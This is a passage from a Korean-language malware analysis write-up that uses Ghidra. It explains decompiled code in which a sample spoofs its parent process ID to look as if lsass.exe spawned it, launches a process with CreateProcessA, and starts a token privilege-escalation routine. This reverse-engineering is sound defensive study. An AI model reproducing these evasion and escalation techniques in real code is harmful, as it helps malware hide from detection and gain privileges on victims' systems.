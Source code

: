 ```cpp
	return 0;
}
```

사용하는 함수, 파라미터가 동일한 것을 확인하실 수 있어요. 그럼 이 행위를 왜 하느냐?

![](ghidra_part5/Untitled%203.png)

당연히 탐지를 피하기 위해서! PPID Spoofing을 하면 해당 프로세스가 `lsass.exe`에 의해서 생성된 것으로 보이도록 하므로 탐지를 피할 수 있습니다. (물론 탐지 방법도 존재하지만요.)

```cpp
CreateProcessA_addr = (CreateProcessA *)GetProcAddress(hModule,"CreateProcessA");
      FUN_00401570();
      WVar2 = (*CreateProcessA_addr)
                        (DAT_00416028,(LPSTR)0x0,(LPSECURITY_ATTRIBUTES)0x0,
                         (LPSECURITY_ATTRIBUTES)0x0,1,0x80010,(LPVOID)0x0,(LPCSTR)0x0,
                         (LPSTARTUPINFOA)&local_84,(LPPROCESS_INFORMATION)&local_94);
```

PPID Spoofing을 진행한 후, 밑에 코드를 확인하면 `FUN_00401570`을 호출한 후 `CreateProcess`를 통해 프로세스를 실행하는 것을 볼 수 있습니다.

정리하자면 해당 함수는 `lsass.exe`의 PID를 가져오고 `FUN_00401b91`을 호출한 후 PPID Spoofing을 진행한 뒤 `FUN_00401570`을 호출합니다. 그 후 `CreateProcessA`를 통해 추가적인 프로세스를 실행하네요.

근데 아까 위에서 확인했던 주소와 `Wlsass.exe`가 아직 나타나지 않았습니다. 음... 다운로드 기능이 추가되어있을 것 같은데? `FUN_00401b91`을 먼저 확인하면서 어떠한 행위를 하는지 확인해보죠!

```cpp
bool token_priv_escalate(void)

{
  HANDLE thread_handle;
  WINBOOL WVar1;
  DWORD DVar2;
  int iVar3;
  HANDLE token_handle;
  ImpersonateSelf *ImpersonateSelf_addr;
  OpenThreadToken *OpenThreadToken_addr;
  
  OpenThreadToken_addr = (OpenThreadToken *)GetProcAddress(DAT_0041601c,"OpenThreadToken");
  thread_handle = GetCurrentThread();
  WVar1 = (*OpenThreadToken_addr)(thread_handle,0x28,0,&token_handle);
```